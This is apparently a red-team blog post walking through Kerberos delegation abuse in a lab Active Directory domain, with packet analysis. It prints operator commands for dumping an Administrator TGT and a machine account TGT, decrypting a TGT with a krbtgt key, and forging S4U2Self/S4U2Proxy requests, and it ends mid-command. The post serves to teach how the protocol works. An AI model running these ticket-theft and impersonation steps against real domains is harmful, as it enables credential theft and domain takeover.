

---

Hello fellow packet enjoyers and delegation survivors,

Today we’re (deep) diving into one of those Active Directory “features” that sounds simple on paper but quickly turns into a full-blown existential crisis once you actually try to understand it.

You’ve probably seen the buzzwords thrown around like
S4U2Self, S4U2Proxy, RBCD, forwardable tickets…
and at some point you just nod and pretend it makes sense.

_image from @theluemmel_
well… it doesn’t


So in this post, we’re going to tear this thing apart properly.
Not just “what it does”, but what the KDC is actually doing,  how tickets are being forged, modified, and forwarded, and most importantly… what this looks like on the wire


This post is mainly for two reasons:

1. Beacuse why not
2. To help me understand what the hell is going on (still not fully clicking even after writing this)


If you’ve ever:
- blindly run `Rubeus s4u` and hoped for the best
- been confused why you need a forwardable ticket
- or didn’t understand why delegation sometimes works and sometimes doesn’t

this post is for you.

--- 

## Content

We’ll walk through:

- Unconstrained Delegation
- Constrained Delegation (with and without protocol transition)
- Resource-Based Constrained Delegation


### Fair Warning
Before we go any further, go grab a cup of coffee… or two.

This is not one of those 5 minute read posts where you skim a few diagrams and call it a day.
We’re going deep into the weeds here.. packets, ticket flags, KDC logic, weird edge cases, and the kind of stuff that makes you question your life choices at 3AM.

Now let’s break it.

---
## Lab Setup

I have set up a lab that looks something like this:

| Machine | IP          | Configuration                                                   |
| :------ | :---------- | :---------------------------------------------------------------|
| DC01    | 10.0.0.2    | Main DC (`lol.local`)                                           |
| SRV02   | 10.0.0.3    | Hosts IIS and is Allowed to Delegate to `DC01` (Constrained)    |
| WS01    | 10.0.0.4    | `TRUSTED_FOR_DELEGATION` (Unconstrained)                        |
| Kali    | 10.0.0.129  | Hosting AdaptixC2                                               | 


SRV02 is a Windows Server hosting IIS, configured with Kerberos Constrained Delegation. It runs a simple ASP page that connects to a share on DC01 (`\\DC01\ShareSupport`) on behalf of the authenticated user. 
> The machine runs IIS under a dedicated service account `svc_iis`, which owns the SPN `HTTP/srv02.lol.local` and is trusted to delegate to `cifs/DC01` (to list the content of `ShareSupport`)

we can also see that from access token of `w3wp.exe` (IIS worker process) that it can act as any user that authenticates to it.


> NOTE: Most of the commands we’ll be using require `SYSTEM` level privileges on the machine to extract tickets. + I will be using [Kerbeus-BOF](https://github.com/RalfHacker/Kerbeus-BOF) instead of Rubeus
{: .prompt-warning }
---

## What Is Delegation?
Kerberos delegation lets a service act as a user when interacting with other services. Imagine you log into some front-end web app, but behind the scenes it needs to talk to a database or a file server to actually get things done. At that point, the app needs a way to access those back-end resources as you, not as itself.


We know when a user logs in during the initial logon, he obtain a TGT which he can use to grab service tickets for whatever they need (enabling SSO). But in a scenario like this how does the web server get a SQL service ticket as that user?
that’s the problem delegation was built to solve.

<!-- When user logs in he obtain a TGT which is used to requset TGS for various services, which implements the sense of SSO. But in a scenario like this how could the web server obtain a SQL service ticket for the user? this what delegation was made for -->


---

## Unconstrained Delegation
I won’t go too deep into this part with traffic analysis since [@0x4148](https://x.com/0x4148) already did a great job covering this in far more detail in his blog[^blog].


But in general Unconstrained Delegation is a configuration where any account (usually a machine account) is trusted to store TGT of any user who auth to that machine and can be used to request a TGS to any service in the entire domain. this means that we can impersonate **any** user to access **any** service.


So if we have control over a machine with `TRUSTED_FOR_DELEGATION` and a high-privileged user authenticates to it, we can then extract their TGT and use it to request service tickets to any other service.

### Enumeration
we can use ldap query to filter only computer accounts with [SAM-Account-Type attribute](https://learn.microsoft.com/en-us/windows/win32/adschema/a-samaccounttype) of `0x30000001` which resolves in decimal to `805306369` and using bitwise AND with trusted for delegation flag `524288`, all other flags can be found [here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) 
```bash
beacon> ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname

--------------------
sAMAccountName: DC01$
--------------------
sAMAccountName: WS01$
retrieved 2 results total

```
As expected we see that `WS01$` is configured with `TRUSTED_FOR_DELEGATION`

> Domain Controllers are configured with unconstrained delegation by default, but that’s not particularly useful. If you’ve compromised the DC, it's already game over.
{: .prompt-info }

### Exploitation
If we forced auth with high level user and used a tool like [Kerbeus-BOF](https://github.com/RalfHacker/Kerbeus-BOF) to see what tickets are cached we can see that a high level user (administrator) has authenticated to the `WS01` and `WS01` cached it's TGT (we can tell it is TGT because the service is `KRBTGT`) 

```bash
beacon> krb_triage
[+] Kerbeus TRIAGE by RalfHacker
[+] host called home, sent: 13289 bytes
[+] received output:

Action: List Kerberos Tickets (All Users)


--------------------------------------------------------------------------------------------------------------------------
| LUID        | Client                                   | Service                                  |            End Time |
--------------------------------------------------------------------------------------------------------------------------
| 0:0x24ab54  | Administrator @ LOL.LOCAL                | krbtgt/LOL.LOCAL                         | 28.03.2026 04:54:43 |
| 0:0x1759f4  | Administrator @ LOL.LOCAL                | krbtgt/LOL.LOCAL                         | 28.03.2026 04:05:11 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:42 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:42 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | LDAP/DC01.lol.local/lol.local            | 28.03.2026 04:16:42 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | cifs/DC01                                | 28.03.2026 04:16:42 |
| 0:0x953db   | pixel @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:42 |
| 0:0x953db   | pixel @ LOL.LOCAL                        | LDAP/DC01.lol.local/lol.local            | 28.03.2026 04:16:42 |
| 0:0x3e4     | ws01$ @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:03 |
| 0:0x3e7     | ws01$ @ LOL.LOCAL                        | LDAP/DC01.lol.local/lol.local            | 28.03.2026 04:16:03 |
--------------------------------------------------------------------------------------------------------------------------
```


Now we can dump the ticket:
```bash
beacon> krb_dump /luid:24ab54
[+] Kerbeus DUMP by RalfHacker
[+] host called home, sent: 16794 bytes
[+] received output:

Action: List Kerberos Tickets( LUID: 24ab54)

[*] Target LUID     : 24ab54

UserName                : Administrator
Domain                  : LOL
LogonId                 : 0:0x24ab54
Session                 : 0
UserSID                 : S-1-5-21-1558345677-4257867870-1842270656-500
Authentication package  : Kerberos
LogonServer             : 
UserPrincipalName       : 

[*] Cached tickets: (1)

  [0]
	ClientName               :  Administrator @ LOL.LOCAL
	ServiceRealm             :  krbtgt/LOL.LOCAL @ LOL.LOCAL
	StartTime (UTC)          :  27.03.2026 18:54:43
	EndTime (UTC)            :  28.03.2026 04:54:43
	RenewTill (UTC)          :  03.04.2026 18:54:43
	Flags                    :  forwardable forwarded renewable pre_authent enc_pa_rep 
	KeyType                  :  aes256_cts_hmac_sha1

	doIFMjCCBS6gAwIBBaEDAgEWooIEOzCCBDdhggQzMIIEL6ADAgEFoQsbCUxPTC5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTE9MLkxPQ0FMo4ID+TCCA/WgAwIBEqEDAgECooID5wSCA+P+0oTz/pdfSRSTlvEM0rZBBwJjTfk5Gyzp1kIK780fa3mU5FL8aiUnX7wuYj96OyoI86jHD+QoTYijKv87OoP6oVyzO3Mn/1OQTSD+XJ4W8FQ8iiiqaAHxWJozDnD1Hi7I+QTESvfyuaqQ/DRKSHppJy5ED38PxPD1L4V5kQFoRc3vG6Ue8KepspmHpWkOF5HWq5VjbUGJmQksQAKRComH5EmHiyZ7vNQtxkABjWNI4LT2UTUrfF2fimPt0bxyigk0nfcZMeo05eQnmSkj4mXRStGcGYWGzxI47VkomnSti9m/uOngUvGFG7iBKXbzCl/8p9PzRIBNLlSwsyJ1yONJuRzlvexdm7IXojMr5dlAJsJMLDad2USGaGdD/GkC5XpFnnSJfgGUsrQeyUwgx+yqfCkn8Qw+97W2S9UXXCDYt+9EKum8hNUHHE/njLaGOrncv6ioF5tjaRiSoKvR0XaTeBfMPbO+XNnBsbFwONPs8c+1S46zu5bLVvu6c2qUtN8YlOYjlnSDXuZQJ2fzcgQzooyBa6+yO6q9FKY5BYL301CfBJsxohnpfZWeVXaRbcY8rDNDEIG6JWZ/EqNqcTypMzOfAu+PunzeRabgnVc0DPg5ppCcqY9RRbxQzdFK1W9lGFIqMl17V55wyjGtoEj0bz5gDh1nk771l6EmbdisNnIC4S5P88fEgV78JyjsMdLLfJfBJlllRYM4IksteYxJTlcJGYOOr4kPGOGXbIzfsJvm+j0HK+8XhanD2MDBXaHJV/ZHtVgUw6xkgH2uENaHFbEmnxz+Ga/WnHzImPSelRPk0bWdp/E/J0upPZP0mvw+3NzATneDrwi7uVHrEKRSXLQoqFT/EltpTaJ8Vhcx3U79Q0UbAHXOhuHWEiwbz/liX+MVHIO70lJVWh8iU3pRQWBoQHD2m+RggPVP27tPzg4WBN19EZNePAJgBXL43YfNUsLgmgMbj72ptwvaemf23+DuIIqzsiQQmeWwl6QE2X9UAR1wHDLCfukC7eEEt4wLpthCSbnfynpOXia3hlADYTXq0dPw5uz6WyPWyD73n51Me+OXm3JmJ7Ify/6pgSArdL7Pz2pFYDRYpheW68WeJNaEZ1QTsc4XqIGLW2Rd72n3AFlOSdwoxZ7/wcF/RIXw7muO5bjWCX5Y1Cto73A/2ez3AGyj9BT92OpVY05Fv0iYPR6Ya5XEyKdDArrI6c8ZOZIdQ8Yf0kV5SOEGoZ65pVm7cT6PKfNl2OMouN/0CjaoVZE17dqxSluKqgpnuu0XXXoju3VqekNiv5GB8/uG2ikkqDG+15ZspAoqmZ91KamMlaOB4jCB36ADAgEAooHXBIHUfYHRMIHOoIHLMIHIMIHFoCswKaADAgESoSIEICFUey9/gH7rWSdtG939JsKtp4GCLlm4BZSQAjgeq77doQsbCUxPTC5MT0NBTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAGChAAClERgPMjAyNjAzMjcxODU0NDNaphEYDzIwMjYwMzI4MDQ1NDQzWqcRGA8yMDI2MDQwMzE4NTQ0M1qoCxsJTE9MLkxPQ0FMqR4wHKADAgECoRUwExsGa3JidGd0GwlMT0wuTE9DQUw=
```
We can see that it has `forwardable` flag enabled and that is exactly what we need in order to use it to request TGS to other services.


> If a user was in the `Protected Users` (or is marked as "Sensitive and cannont b e delegated") their TGT won't even get cached on the machine at all. more info on this group here[^protected]
{: .prompt-danger }

There are Numours ways to use this ticket one way is with Rubeus `createnetonly`, which uses the `CreateProcessWithLogonW()` API to spawn a new hidden process with logon type 9 (NewCredentials). Then we can then inject the ticket into that session and use it for network authentication.

---


## Constrained Delegation

Constrained delegation — or Service for User (S4U) Kerberos extension — was introduced as a more secure improvement over traditional delegation. it has two new protocols:
1. **S4U2proxy (Service for User to Proxy):** This is the part that actually does the delegation. It lets a service take a user’s identity and request a service ticket to another service on their behalf
2. **S4U2Self (Service for User to Self):** This is more like a setup step. It allows a service to generate a service ticket for a user to itself, even if the user didn’t originally authenticate using Kerberos (NTLM for example). Once the service has that ticket, it can then move to S4U2Proxy and request access to other services as that user. This is refered as *protocol transition.*

I like to think of it as unconstrained delegation but with guardrails, instead of a (any) user being able to delegate to (any) service, they’re only allowed to delegate to specific services on specific hosts. 


So instead of relying on the `TRUSTED_FOR_DELEGATION` flag like in unconstrained case, constrained delegation is controlled through the `msDS-AllowedToDelegateTo` attribute on the computer account which is a list of `SPNs` that this machine is allowed to act against on behalf of a user.
```bash
beacon> ldapsearch (&(objectclass=computer)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
[*] Filter: Filter: (&(objectclass=computer)(msDS-AllowedToDelegateTo=*))
[*] Scope of search value: 3
[*] Returning specific attribute(s): samAccountName,msDS-AllowedToDelegateTo

--------------------
sAMAccountName: SRV02$
msDS-AllowedToDelegateTo: cifs/DC01, cifs/DC01.lol.local
retrieved 1 results total
```
as we can see `SRV02$` is allowed to delegate specifically for `cifs` service on `DC01` host.

Now let's discuss `S4U2self` and `S4U2proxy` in details

---

## S4U2self (Protocol Transition)


One way to actually know if server is configured with Protocol Transition we need to see `TRUSTED_TO_AUTH_FOR_DELEGATION` flag is enabled or not (it is not by default), this can be done by enumerating   `UserAccountControl` attribute of the computer object.

```bash
beacon> ldapsearch (&(objectclass=computer)(samaccountname=SRV02$)) --attributes userAccountControl

userAccountControl: 16781312
retrieved 1 results total
```

then we can iterate over some popular flags and performing `Bitwise AND` operation to break that number into human-readable flags, I wrote a small script that helps us do that (other flags are [here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)):
```powershell
$UAC_FLAGS = @{
    0x0001 = "SCRIPT"
    0x0002 = "ACCOUNTDISABLE"
    0x0008 = "HOMEDIR_REQUIRED"
    0x0010 = "LOCKOUT"
    0x0020 = "PASSWD_NOTREQD"
    0x0040 = "PASSWD_CANT_CHANGE"
    0x0080 = "ENCRYPTED_TEXT_PWD_ALLOWED"
    0x0100 = "TEMP_DUPLICATE_ACCOUNT"
    0x0200 = "NORMAL_ACCOUNT"
    0x0800 = "INTERDOMAIN_TRUST_ACCOUNT"
    0x1000 = "WORKSTATION_TRUST_ACCOUNT"
    0x2000 = "SERVER_TRUST_ACCOUNT"
    0x10000 = "DONT_EXPIRE_PASSWORD"
    0x20000 = "MNS_LOGON_ACCOUNT"
    0x40000 = "SMARTCARD_REQUIRED"
    0x80000 = "TRUSTED_FOR_DELEGATION"
    0x100000 = "NOT_DELEGATED"
    0x200000 = "USE_DES_KEY_ONLY"
    0x400000 = "DONT_REQUIRE_PREAUTH"
    0x800000 = "PASSWORD_EXPIRED"
    0x1000000 = "TRUSTED_TO_AUTH_FOR_DELEGATION"
}

$UAC_FLAGS.GetEnumerator() | Where-Object {
    $uac -band $_.Key
} | Select-Object Value
```
so after setting `$uac` to `16781312` and run the script we got this:
```shell
Value
-----
TRUSTED_TO_AUTH_FOR_DELEGATION
WORKSTATION_TRUST_ACCOUNT
```
This is how we enumerate this flag.

---

Now lets dive into network analysis!

We configure the IIS to handle only NTLM authentication


and ofc its configured to auth with any protcol


On accessing the web app from `WS01` it asks for credentials.


After logging in with help of claude it wrote a simple `asp` file that display the authenticated user, Auth type and lists the content of the `\\DC01\ShareSupport` that `SRV02` can delegate to with `cifs` service.


If we see what wireshark caught it will be something like this:


Overview on each one:
1. Normal NTLM authentication flow that is already well documented here[^ntlm] by the same author.
2. This is where the web server is requesting a S4U2Self ticket on behalf of `LOL\pixel` to itself.
3. This is the S4U2Proxy part where the web server says 

Let's dive deeper!

### s4u2self TGS-REQ


we will focus on:
1. `req-body`: which basically tell the KDC What ticket do I want you to issue.
2. `padata`: the 3 padata items has the proper info that make the KDC trust this request.

#### req-body


here it we can it has Key fields inside of it like sname realm, kdc-options.

what is intersting is the `sname` because it has the `srv02$` machine account to which means that it is requesting a ticket to itself
> Even I DID configure `svc_iis` to handle all thing it still fallback to the account machine `srv02`, I don't know why I even turned off Kernel-Mode Authentication. I will troubleshoot it later but for now it is requesting ticket to self as `SRV02$` account not `svc_iis`
{: .prompt-warning }

#### PA-TGS-REQ


it contains two important parts, `SRV02$`TGT and Authenticator.

the use of this part is just to prove to the KDC that is a valid packet by providing to the KDC the TGT along with the authenticator that is encrypted using the Session Key that was generated when the machine first got it's TGT.

for fun we can use script from the same [blog](https://blog.redforce.io/windows-authentication-attacks-part-2-kerberos/) and use the krbtgt to decrypt the tgt then getting the session key to decrypt the authenticator:

```python
from pyasn1.codec.der import decoder, encoder
from binascii import unhexlify, hexlify
from impacket.krb5.crypto import Key, _enctype_table, InvalidChecksum
cipher = _enctype_table[18]()

# krbtgt aes-256 hash
key = Key(18, unhexlify("c6d08e93289dc233a35193e68b786cf0e4f1b5c1c78d1e1ea6f933ce5dc73c83"))

# the TGT of SRV02$ account
mycipher = "d52a84f29a812303bf168379ef55c74d7995be8c107a823b3d65993719ce222df6a917e36a36fbbc455427a6bf65906cc651bf2960becb40c2fec7bb9b589fd198505905e5f7415a8a08b9fae2e14377beaafa2777fb148adafde819e40d94b991f5dc016476c6b43d2641645f890cd3e7a52831a6df76fe5a6f8aee461937508975602b11c874c0d7e2ac8d7d3354832a9aa5635126a0ccfda189e07c27d70a02e5d584cf248929439327843cf6090d9536cfe7e727967793cd4a4845373e0f27cf1de6699834162fd4131838dc0eaf8c8cf605b6b7a99ea1b8f409298b2d5b8fdd194abb6b6c4c2acdd2f30f9168ce26990c6c19d4f8c10ce935dab0097b4549c90b4168d5486e461edb4e52543e765dcc49efa8f08e7473f0bcaaa74bf46398901e6ac822c7e78966901ab182f8688680cf9af58e3196d9f25ba7d2f5841ae908f0e1d142ce9499edce84f13cae24a1f48ee3cb8d476dec3b0ed0a04e01646d47a2d1e203a1098082f2f36e8b24b4db38fe191255267e47052e1d5a67441696b9ea8f9cf34fe1354b6350eeb735c5d6c10c667cbebea7bcfbe120b7ea31e8fe2a064cce0a49ba874f2023ac652e0b91a6e08b2c4587f1bd2f16c35159ec8c8d0b280f62919bf7885cc1b4bee9aff661b98a9331fe9050265ae037b51163af7bfdfc2cb1e703a37c1f8945b7255facedd457f1594c2ecab45993e3dc799967d59fa71eec392cdcff01d87c2f50f2fe262ce022ff249a37f1fda545331f09c80ec263a1b265aa4533e4fd5af9697c26f3921ba137cb53d44220da348b4b968f51b2b5e6e39ebe105549390051a6098343dcacbbfd206e591372e27a206180dcbd30532211d7458f17eaa7e574b34763d3b7aa250f91c72d79025ce7821b60e9d12d85f19b4c53232c887b4ca85a1f03325be8faf2c6fe079e8c4f9fa1b1d2ea67adb2a6f916f0d39b77df77d02122661556213355247b10a8ead58320f1a590f997b4f2be5840bb4f0ff8d6906e0683ae4a17f814258b532dfafa580640a805cd25462bfb990ae4272e628d5535eda21629dc1bc3754ae78f29039efb4b852b7a06ba9cec826ea06f93af5fcf8fdfe35c2c593c83562c21043a3350703a7b26647bf3ae8a6376722613f1ad19f7d0c17e17839cc51926fa349bb16f6de8ebcc129c6d081d5c9f8439cb0f3bdfd9234e229c4b3301ec0b62f6030a1f0f7e10d2cd253281ff266f5cdee68a463fa299778d95e97cb7a1f594170f5f5bb34889a78f9d9d21799e587329ccc7f0"

jnk = cipher.decrypt(key, 2, unhexlify(mycipher))
dec = decoder.decode(jnk)
for i in dec:
  print (i)
```


we will get this decoded TGT:
```
Sequence:
 field-0=1088487424
 field-1=Sequence:
  field-0=18
  field-1=0x9fbfb519eb4f8a50c2f65194c1d20fa574f46b9d979a4c4aee95d1054c9e4b41

 field-2=LOL.LOCAL
 field-3=Sequence:
  field-0=1
  field-1=SequenceOf:
   SRV02$

 field-4=Sequence:
  field-0=0
  field-1=

 field-5=20260328094157Z
 field-6=20260328094157Z
 field-7=20260328194157Z
 field-8=20260404094157Z
 field-9=SequenceOf:
  Sequence:
   field-0=1
   field-1=0x3082029a30820296a00402020080a182028c04820288050000000000000001000000b001000058000000000000000a0000001600000008020000000000000c000000480000002002000000000000060000001000000068020000000000000700000010000000780200000000000001100800cccccccca0010000000000000000020014f5e31d97bedc01ffffffffffffff7fffffffffffffff7fbe80245d62bcdc01be408e872bbddc01ffffffffffffff7f0c000c00040002000000000008000200000000000c000200000000001000020000000000140002000000000018000200730000004906000003020000010000001c000200200000000000000000000000000000000000000008000a002000020006000800240002002800020000000000000000008000040000000000000000000000000000000000000000000000000000000000010000002c00020000000000000000000000000006000000000000000600000053005200560030003200240000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001000000030200000700000005000000000000000400000044004300300031000400000000000000030000004c004f004c00000004000000010400000000000515000000cd77e25c5ee8c9fdc0d1ce6d010000003000020007000000010000000101000000000012010000000000000080e02e1e97bedc010c0053005200560030003200240000002000100012003000010000000000000053005200560030003200240040006c006f006c002e006c006f00630061006c004c004f004c002e004c004f00430041004c000000000000001000000032cc6b469ffda75339d8ad9210000000182a3170ee3da1e7d31b7364
```
`Field-0` is  The Ticket Flags, `Field-9` is The PAC. But what we are need is `field-1` where it is the session key. we will use it as key to decrypt the Authenticator, but first we need to change the Key Usage integer from 2 to 7, so it will be like this: `jnk = cipher.decrypt(key, 2, unhexlify(mycipher))`. 

Now after running the script again we get the decoded authenticator:
```
Sequence:
 field-0=5
 field-1=LOL.LOCAL
 field-2=Sequence:
  field-0=1
  field-1=SequenceOf:
   SRV02$

 field-3=Sequence:
  field-0=7
  field-1=0xc8bed10b3564b41c7bf807b5a59dc7b4

 field-4=132
 field-5=20260328152316Z
 field-6=1298893529
```

These steps wasn't necessary at all but it is good to understand what is happening under the hood.


#### PA-FOR-USER (S4U2Self extension)

It exists because the user didn’t authenticate via Kerberos, so this is basically tells the KDC that it want to act on behalf of that user.

it has the target user (e.g., pixel) and Checksum. The Checksum is used to assure that no MitM can alter the request and change the target to user to an admin account. all the details of how it is calculated is here [^PA-FOR-USER]

#### PA-FOR-X509-USER
PA-FOR-X509-USER is just the certificate-backed version of S4U. Instead of asking the KDC to impersonate a user by name, the service provides an X.509 certificate. From offensive perspective it can be used with ESC1/ESC6/ESC8 attacks IF we can get a certificate for a user to be combined with S4U

### s4u2self TGS-REP

This is the respond of the previous request. the KDC hands back a service ticket for user `pixel` to the service (SRV02). Even though the requset was sent by SRV02 it got back TGS for `pixel`, This is where can really observe the impersonation happening.

The actual TGS is encrypted by the `SRV02$` account key.

### S4U2Proxy TGS-REQ


Now the service is requesting a new TGS to `cifs` service on behalf of the user.

Notice that there is no NO PA-FOR-USER anymore, We already impersonated the user in S4U2Self step.. we can now prove it using by providing the TGS that we got from the previous step in the `kerberos.additional_tickets`.

### S4U2Proxy TGS-REP

The KDC hands back a service ticket to the TARGET service (`cifs`) as the user `pixel`. 

This TGS is encrypted using the target service key (in this case it is `DC01` key).

## Abusing: Protocol Transition

If we compromised the `SRV02` machine and extracted the TGT for the `SRV02$` machine account, we can use it to perofrm a S4U2Self request then S4U2Proxy, and we the have complete freedom in what username we put in the TGS-REQ because the DC will blindly trust the cryptographic signature of `SRV02$` (which we stole).


### Getting SRV02's TGT


```
beacon> krb_dump /luid:3e4 /service:krbtgt
[+] Kerbeus DUMP by RalfHacker
[+] host called home, sent: 16807 bytes
[+] received output:

Action: List Kerberos Tickets( LUID: 3e4)

[*] Target service  : krbtgt
[*] Target LUID     : 3e4

UserName                : SRV02$
Domain                  : LOL
LogonId                 : 0:0x3e4
Session                 : 0
UserSID                 : S-1-5-20
Authentication package  : Negotiate
LogonServer             : 
UserPrincipalName       : 

[*] Cached tickets: (4)

  [1]
	ClientName               :  srv02$ @ LOL.LOCAL
	ServiceRealm             :  krbtgt/LOL.LOCAL @ LOL.LOCAL
	StartTime (UTC)          :  28.03.2026 09:42:46
	EndTime (UTC)            :  28.03.2026 19:41:48
	RenewTill (UTC)          :  04.04.2026 09:41:48
	Flags                    :  forwardable forwarded renewable pre_authent enc_pa_rep 
	KeyType                  :  aes256_cts_hmac_sha1

	doIE1DCCBNCgAwIBBaEDAgEWooID5DCCA+BhggPcMIID2KADAgEFoQsbCUxPTC5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTE9MLkxPQ0FMo4IDojCCA56gAwIBEqEDAgECooIDkASCA4z5L2UXOO1EAqTexFsnZLzhEn7s3m6yWAphFz4AKYp9MGXbbUDys+e1GTz/HnshQJXkSfcXK+WWlOvsb8p3iGo9p2oCY0bLznYHbYnFgI4Rvj9+aT8rP33w0mngS/cyv6/Dx0/bjQV41IKObdJnNI/9xgmtnV/0S36EzkeeASkds7GUzlzImFlsdIPA4uRVAbC26jYp+irrcqI7NVqy9mD6ZFdwAAalYP2jaQR7seAgw2x/ml13y7U4Fj2fQeGyF0uX1YSNwzewoV0V/5FZcXquxHFmwtq1FfQAKcityaUDLAln4ITF69y4SjO8CKIE5tFLtVVmnT/qO30YDSEshrvZj9y2pMkB15fRBqzC9wyN9hOVd+zQ7tLkHnpgrKUHUw4An43ITzmXFcw1PUQykKY3p7LWjQCma8eMAL2KUoJH7r97gD3wJ045YGuToo6GPpa3ecRPKRlkwaUeDvlZsU7klBWv+Xw+uX9+WJ4OzFQPDInoLyQ/w9Luyfzzk5dqDqXXqp39JejsgSw6IRRUOoNn+6/NH1olpazYSyh/Sfwi5ZNf9SLIKX+2zrDQ1HySyL3hb6FmBkfoBkEMCi9ey5IrUTQtjNunR9K+/W+1OjVjNKx9Bpp4BeuSMNGLiVPvv+QLgpbs1jBbP1yMqcbV1lq0Ba2ZA/XsA/Qmn8gjiJuumS8d+kzbEXXb9R0wB1rOwQspm93Qm0r+ooUozQg7uAS+yJ5G4OoZ2+g1vJ5uaSo/PB2uHKyfARkVn/S54mKIkJmV38jS4VHTlJgeOItYE3r+1tIpduZLXHuNiPRlLFCiKSFAhbOLiE7ff7/Iqh4BgDSbZ9uw5fvOQct1XqFtvx/egGStLdeBMwJPz6qt+j/NJy5so/vq05Xo2kqwWudSk8uO8TTLKvuDiv3gcx109hmYb6ckdSnu8re19Z+p7oV4rFCF8oVR1ku9qpkJkzSBJLcDIidflVIhSGsDsnSrTrJmbDnojWJijmicjw/9ytr22gZuZ427FWuJsvYxSRJg8x3d2O+AGJvtdREot8BoK5b2NOVHSh1Ljg+VC2BKSWQD3pKjTK7dBoEt1tSYAnaZsxrYChVJDQIXZ7HmE2rSd6+aFHd2a77zigp6sThaTODb311lYHpMyemkEyjwfREYCMBgE7X5eLoVBjoOsWAFuKUOZyUTnm93WCdZUWa/e7x5shPcy6mj3V1ZRtFcU6OB2zCB2KADAgEAooHQBIHNfYHKMIHHoIHEMIHBMIG+oCswKaADAgESoSIEIFHYjRGP5xBr8//JF8phM2/J4MIZUHjfQPLjUjib/h6ToQsbCUxPTC5MT0NBTKITMBGgAwIBAaEKMAgbBlNSVjAyJKMHAwUAQOEAAKURGA8yMDI2MDMyODIwNDI0OFqmERgPMjAyNjAzMjkwNjQyNDhapxEYDzIwMjYwNDA0MjA0MjQ4WqgLGwlMT0wuTE9DQUypHjAcoAMCAQKhFTATGwZrcmJ0Z3QbCUxPTC5MT0NBTA==

```

We can see that it has `forwardable` flag enabled, which is a must in order to carry out this attack.

### Requesting S4U2Self, S4U2Proxy

```
beacon> krb_s4u /ticket:doIE1DCCBNCgAwIBBaEDAgEWooID5DCCA+BhggPcMIID2KADAgEFoQsbCUxPTC5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTE9MLkxPQ0FMo4IDojCCA56gAwIBEqEDAgECooIDkASCA4z5L2UXOO1EAqTexFsnZLzhEn7s3m6yWAphFz4AKYp9MGXbbUDys+e1GTz/HnshQJXkSfcXK+WWlOvsb8p3iGo9p2oCY0bLznYHbYnFgI4Rvj9+aT8rP33w0mngS/cyv6/Dx0/bjQV41IKObdJnNI/9xgmtnV/0S36EzkeeASkds7GUzlzImFlsdIPA4uRVAbC26jYp+irrcqI7NVqy9mD6ZFdwAAalYP2jaQR7seAgw2x/ml13y7U4Fj2fQeGyF0uX1YSNwzewoV0V/5FZcXquxHFmwtq1FfQAKcityaUDLAln4ITF69y4SjO8CKIE5tFLtVVmnT/qO30YDSEshrvZj9y2pMkB15fRBqzC9wyN9hOVd+zQ7tLkHnpgrKUHUw4An43ITzmXFcw1PUQykKY3p7LWjQCma8eMAL2KUoJH7r97gD3wJ045YGuToo6GPpa3ecRPKRlkwaUeDvlZsU7klBWv+Xw+uX9+WJ4OzFQPDInoLyQ/w9Luyfzzk5dqDqXXqp39JejsgSw6IRRUOoNn+6/NH1olpazYSyh/Sfwi5ZNf9SLIKX+2zrDQ1HySyL3hb6FmBkfoBkEMCi9ey5IrUTQtjNunR9K+/W+1OjVjNKx9Bpp4BeuSMNGLiVPvv+QLgpbs1jBbP1yMqcbV1lq0Ba2ZA/XsA/Qmn8gjiJuumS8d+kzbEXXb9R0wB1rOwQspm93Qm0r+ooUozQg7uAS+yJ5G4OoZ2+g1vJ5uaSo/PB2uHKyfARkVn/S54mKIkJmV38jS4VHTlJgeOItYE3r+1tIpduZLXHuNiPRlLFCiKSFAhbOLiE7ff7/Iqh4BgDSbZ9uw5fvOQct1XqFtvx/egGStLdeBMwJPz6qt+j/NJy5so/vq05Xo2kqwWudSk8uO8TTLKvuDiv3gcx109hmYb6ckdSnu8re19Z+p7oV4rFCF8oVR1ku9qpkJkzSBJLcDIidflVIhSGsDsnSrTrJmbDnojWJijmicjw/9ytr22gZuZ427FWuJsvYxSRJg8x3d2O+AGJvtdREot8BoK5b2NOVHSh1Ljg+VC2BKSWQD3pKjTK7dBoEt1tSYAnaZsxrYChVJDQIXZ7HmE2rSd6+aFHd2a77zigp6sThaTODb311lYHpMyemkEyjwfREYCMBgE7X5eLoVBjoOsWAFuKUOZyUTnm93WCdZUWa/e7x5shPcy6mj3V1ZRtFcU6OB2zCB2KADAgEAooHQBIHNfYHKMIHHoIHEMIHBMIG+oCswKaADAgESoSIEIFHYjRGP5xBr8//JF8phM2/J4MIZUHjfQPLjUjib/h6ToQsbCUxPTC5MT0NBTKITMBGgAwIBAaEKMAgbBlNSVjAyJKMHAwUAQOEAAKURGA8yMDI2MDMyODIwNDI0OFqmERgPMjAyNjAzMjkwNjQyNDhapxEYDzIwMjYwNDA0MjA0MjQ4WqgLGwlMT0wuTE9DQUypHjAcoAMCA